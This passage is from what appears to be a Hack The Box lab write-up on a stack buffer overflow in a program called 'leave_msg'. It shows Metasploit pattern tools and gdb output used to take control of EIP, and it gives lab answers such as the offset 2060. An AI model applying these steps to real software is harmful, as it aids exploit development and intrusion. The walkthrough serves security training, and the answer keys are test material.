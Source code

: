 When we caused the segmentation fault, we overwrote the EIP register with As. To obtain control of the EIP, we will use Metasploit's _pattern_create.rb_ and _pattern_offset.rb_ to find the offset where we can can start modifying the EIP address with what we want

In our machine, we will run the following:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2200
```

Now, we will have our pattern made of 2200 characters. We will be sending it instead of the many As we sent on the debugger

```bash
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0A...pattern...9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2C'")
Starting program: /home/htb-student/leave_msg $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0A...pattern...9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2C'")

Program received signal SIGSEGV, Segmentation fault.
0x37714336 in ?? ()
(gdb) i r eip
eip            0x37714336	0x37714336
```

Checking our EIP, we can see that we have successfully controlled it. Our last step is to find the offset with _pattern_offset.rb_, using it like this:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x37714336
```

We recieve this as our output:

```bash
[*] Exact match at offset 2060
```

**Answer:** 2060

3) Submit the size of the stack space after overwriting the EIP as the answer. (Format: 0x00000)

To identify the stack space after overwriting the EIP, we can use the following command to view its value on GDB

```bash
(gdb) info proc all
```

Running it, we will have the following output:

```bash
process 2181
warning: target file /proc/2181/cmdline contained unexpected null characters
cmdline = '/home/htb-student/leave_msg'
cwd = '/home/htb-student'
exe = '/home/htb-student/leave_msg'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	0x56555000 0x56556000     0x1000        0x0 /home/htb-student/leave_msg
	0x56556000 0x56557000     0x1000        0x0 /home/htb-student/leave_msg
	0x56557000 0x56558000     0x1000     0x1000 /home/htb-student/leave_msg
	0x56558000 0x56579000    0x21000        0x0 [heap]
	0xf7ded000 0xf7fbf000   0x1d2000        0x0 /lib32/libc-2.27.so
	0xf7fbf000 0xf7fc0000     0x1000   0x1d2000 /lib32/libc-2.27.so
	0xf7fc0000 0xf7fc2000     0x2000   0x1d2000 /lib32/libc-2.27.so
	0xf7fc2000 0xf7fc3000     0x1000   0x1d4000 /lib32/libc-2.27.so
	0xf7fc3000 0xf7fc6000     0x3000        0x0 
	0xf7fcf000 0xf7fd1000     0x2000        0x0 
	0xf7fd1000 0xf7fd4000     0x3000        0x0 [vvar]
	0xf7fd4000 0xf7fd6000     0x2000        0x0 [vdso]
```